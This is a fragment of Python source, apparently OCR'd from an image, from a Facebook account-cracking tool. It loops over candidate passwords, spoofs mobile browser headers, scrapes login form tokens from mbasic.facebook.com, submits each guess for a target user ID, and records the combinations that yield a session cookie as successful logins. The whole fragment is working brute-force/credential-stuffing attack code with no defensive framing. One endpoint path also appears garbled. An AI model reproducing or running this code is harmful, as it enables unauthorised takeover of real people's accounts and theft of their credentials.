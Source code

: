 		sys.stdout.flush()

		for pw in _sempak_:

			pw = pw.lower()

			try: os.mkdir('')

			except: pass

			try:

				ua_xiaomi = open('agent.txt', 'r').read()

			except (KeyError, IOError):

				ua_xiaomi  = 'Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]'

			ses = requests.Session()

			headers_ = {"Host":"mbasic.facebook.com","upgrade-insecure-requests":"1","user-agent":"NokiaC3-00/5.0 (08.63) Profile/MIDP-2.1 Configuration/CLDC-1.1 Mozilla/5.0 AppleWebKit/420+ (KHTML, like Gecko) Safari/420+","accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://mbasic.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"}

			p = ses.get('https://mbasic.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F', headers=headers_).text

			dataa = {"lsd":re.search('name="lsd" value="(.*?)"', str(p)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p)).group(1),"uid":user,"flow":"login_no_pin","pass":pw,"next":"https://developers.facebook.com/tools/debug/accesstoken/"}

			_headers = {"Host":"mbasic.facebook.com","cache-control":"max-age=0","upgrade-insecure-requests":"1","origin":"https://mbasic.facebook.com","content-type":"application/x-www-form-urlencoded","user-agent":"Mozilla/5.0 (Linux; Android 12; SAMSUNG SM-G780G) AppleWebKit/537.36 (KHTML, like Gecko) SamsungBrowser/16.0 Chrome/92.0.4515.166 Mobile Safari/537.36","accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://mbasic.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"}

			po = ses.post("https://mbasic.facebook.com/login/device-based/vPHDdate-password/?shbl=0", data = dataa, headers=_headers, allow_redirects = False)

			if 'c_user' in ses.cookies.get_dict():

				print('\r\033[1;37m[\033[1;32m𝗥𝗔𝗝-OK\033[1;37m]\033[1;32m %s | %s      ' % (user,pw))

				wrt = '%s - %s' % (user,pw)

				ok.append(wrt)
